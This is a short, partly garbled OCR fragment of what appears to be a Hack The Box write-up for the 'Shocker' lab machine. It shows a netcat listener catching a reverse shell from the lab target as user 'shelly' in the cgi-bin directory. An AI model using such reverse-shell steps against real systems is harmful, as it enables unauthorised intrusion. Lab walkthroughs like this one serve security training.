 ![](Maszyny/Linux/Shocker/Pasted%20image%2020210801192207.png)

(kali kali-os)-[~/htb/shocker]
rlwrap nc -lynp 5555
listening on [any) 5555 ...
connect to [10.10.14.160] from (UNKNOWN) [10.10.10.56] 52234
bash: no job control in this shell
shellyashocker:/usr/lib/cgi-bin$
